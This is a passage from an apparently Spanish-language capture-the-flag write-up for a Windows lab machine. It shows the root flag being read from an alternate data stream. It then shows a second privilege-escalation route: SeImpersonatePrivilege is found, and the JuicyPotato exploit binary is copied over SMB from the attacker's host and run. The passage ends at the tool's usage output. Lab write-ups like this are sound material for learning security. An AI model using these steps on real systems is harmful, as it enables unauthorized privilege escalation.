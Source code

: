 Y con el comando `more` veremos su contenido de la siguiente forma:

```bash wrap=false
C:\Users\Administrator\Desktop> more < hm.txt:root.txt
afbc5bd4b615a6064...
```

## Escalada de privilegios (Second way)

Si utilizamos el comando `whoami /priv` para ver los privilegios del usuario, vemos esto.¡:

```bash wrap=false
PS C:\windows\temp\privesc> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeShutdownPrivilege           Shut down the system                      Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeUndockPrivilege             Remove computer from docking station      Disabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
SeTimeZonePrivilege           Change the time zone                      Disabled
```

Vemos que tiene `SeImpersonatePrivilege`, por lo que podríamos usar el binario `JuicyPotato` para aprovecharnos de esto y escalar privilegios.

### JuicyPotato

Nos descargaremos el binario desde el [repositorio de Github](https://github.com/ohpe/juicy-potato/releases/tag/v0.1) y nos lo pasaremos mediante `SMB` de la siguiente manera:

```bash wrap=false
PS C:\windows\temp\privesc> copy \\10.10.14.15\smbFolder\JuicyPotato.exe JP.exe
PS C:\windows\temp\privesc> dir


    Directory: C:\windows\temp\privesc


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----       10/24/2025   6:23 PM         347648 JP.exe 

PS C:\windows\temp\privesc> .\JP.exe
JuicyPotato v0.1 

Mandatory args: 
-t createprocess call: <t> CreateProcessWithTokenW, <u> CreateProcessAsUser, <*> try both
-p <program>: program to launch
-l <port>: COM server listen port


Optional args: 
-m <ip>: COM server listen address (default 127.0.0.1)
-a <argument>: command line argument to pass to program (default NULL)
-k <ip>: RPC server ip address (default 127.0.0.1)
-n <port>: RPC server listen port (default 135)
-c <{clsid}>: CLSID (default BITS:{4991d34b-80a1-4291-83b6-3328366b9097})
-z only test CLSID and print token's user
```